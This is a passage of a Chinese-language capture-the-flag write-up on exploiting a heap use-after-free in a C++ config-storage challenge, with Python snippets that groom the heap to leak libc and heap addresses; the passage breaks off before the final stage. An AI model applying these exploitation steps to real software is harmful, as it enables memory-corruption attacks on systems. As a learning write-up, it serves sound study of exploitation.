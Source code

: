 ### 构造 UAF

只需要让 vector 扩容后，让 last_update_obj 留在原来的内存并中删除 last_update_obj 指向的那个 Config 对象就行了

![](https://raw.githubusercontent.com/4ak5ra/image/main/屏幕截图 2025-04-12 103248.png)
### 泄漏 libc

然后就是分割堆块来泄露了。先明确我们的操作。我们可以用 add 分配一定大小的(常规方法下都够用)heap 用来储存 name 和 content，这两个 ptr 储存在 Config 对象里，然后我们可以用 update 来修改 name 和 content，用 visit 来访问 last_update_obj，访问用是否 update 来更新 last_update_obj，用 delete 删除 vecort 的对象和 name 和 content。那么思路就很简单了，添加 4 个新对象，两个 unsorted bin 的对象，并且让 now_obj 指向第三个对象再删除第三个对象，此时因为前面解析消息时申请了一个临时对象那么删除第三个对象时就存在一个很大的 unsorted bin 让我们切割了
```python
    configs = []
    name = b'A'*0x30
    content = b'a'*0x30
    configs.append(new_cfg(1, name, content, 0))
    name = b'B'*0x30
    content = b'B'*0x30
    configs.append(new_cfg(1, name, content, 0))

    name = b'C' * 0x30 #tcahe
    content = b'C' * 0x420 #unsorted
    configs.append(new_cfg(1, name, content, 1))#更新last_update_obj迭代器

    name = b'D' * 0x30
    content = b'D' * 0x420 
    configs.append(new_cfg(1, name, content, 0))#放合并 + 提供额外的空间让我们切割

    name = b'E' * 0x30
    content = name 
    configs.append(new_cfg(1, name, content, 0)) #vector扩容，让last_update_obj留在原来的内存中

    # delete
    name = b'C'*0x30
    content = b''
    configs.append(new_cfg(3, name, content, 0))

    name = b''
    content = b'C'*0x6c0
    configs.append(new_cfg(4, name, content, 0)) #分割
```
![](https://raw.githubusercontent.com/4ak5ra/image/main/屏幕截图_20250412_181914.png)   

`hex (0x581a340d87e0+0x6c0+0x20) = 0x581a340d8ec0`

![](https://raw.githubusercontent.com/4ak5ra/image/main/屏幕截图_20250412_182227.png)
### 泄漏 heap 
一样的思路
```python
    name = b'F'*0x30
    content = b'F'*0x420
    configs.append(new_cfg(1, name, content, 1)) #占据上一个0x420的位置

    name = b'G'*0x30
    content = b'G'*0x30
    configs.append(new_cfg(1, name, content, 0))
    name = b'H'*0x30
    content = b'H'*0x30
    configs.append(new_cfg(1, name, content, 0))
    name = b'I'*0x30
    content = b'I'*0x30
    configs.append(new_cfg(1, name, content, 0))
```